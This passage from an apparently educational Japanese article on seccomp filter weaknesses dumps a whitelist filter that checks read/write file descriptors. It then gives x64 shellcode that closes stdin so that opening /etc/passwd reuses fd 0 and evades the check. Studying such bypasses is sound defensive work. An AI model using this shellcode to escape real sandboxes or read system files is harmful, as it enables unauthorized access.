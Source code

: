 [^1]: Dockerで該当脆弱性があり、Shockerという名前で有名です。

## ホワイトボックスの不備
ホワイトボックスルールでも、当然これまで述べてきたような悪用されやすいシステムコールが許可されていれば問題になります。
それ以外にも、引数の検証で安全性を担保しようとすると、ミスが発生しやすいです。

### 引数の確認不備
3番目のルールを確認してみましょう。
```
$ make 03-filter
$ seccomp-tools dump ./lu-seccomp 
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x06 0xc000003e  if (A != ARCH_X86_64) goto 0008
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x04 0x00 0x40000000  if (A >= 0x40000000) goto 0008
 0004: 0x15 0x0a 0x00 0x00000002  if (A == open) goto 0015
 0005: 0x15 0x09 0x00 0x00000003  if (A == close) goto 0015
 0006: 0x15 0x02 0x00 0x00000000  if (A == read) goto 0009
 0007: 0x15 0x04 0x00 0x00000001  if (A == write) goto 0012
 0008: 0x06 0x00 0x00 0x00000000  return KILL
 0009: 0x20 0x00 0x00 0x00000010  A = fd # read(fd, buf, count)
 0010: 0x15 0x04 0x00 0x00000000  if (A == 0x0) goto 0015
 0011: 0x06 0x00 0x00 0x00000000  return KILL
 0012: 0x20 0x00 0x00 0x00000010  A = fd # write(fd, buf, count)
 0013: 0x15 0x01 0x00 0x00000001  if (A == 0x1) goto 0015
 0014: 0x06 0x00 0x00 0x00000000  return KILL
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```
このルールは`open`, `read`, `write`, `close`のみを許可するホワイトボックスルールです。任意ファイルを読み書きできないように、`read`, `write`の引数を確認し、それぞれstdin(=0), stdout(=1)への読み書きしか許可していません。

安全に見えるかもしれませんが、次のようなコードで回避できます。
```asm
xor edi, edi
mov eax, {syscall.x64.close}
syscall

xor esi, esi
lea rdi, [rel pathname]
mov eax, {syscall.x64.open}
syscall

mov edx, 0x1000
mov rsi, rsp
mov edi, eax
mov eax, {syscall.x64.read}
syscall

mov edx, eax
mov rsi, rsp
mov edi, 1
mov eax, {syscall.x64.write}
syscall

pathname: db "/etc/passwd", 0
```
このシェルコードでは、最初に`close`でstdinを閉じています。したがって、次の`open`で`/etc/passwd`を開いたときにファイルディスクリプタとして0番が選ばれ、`read`の引数チェックを回避できます。
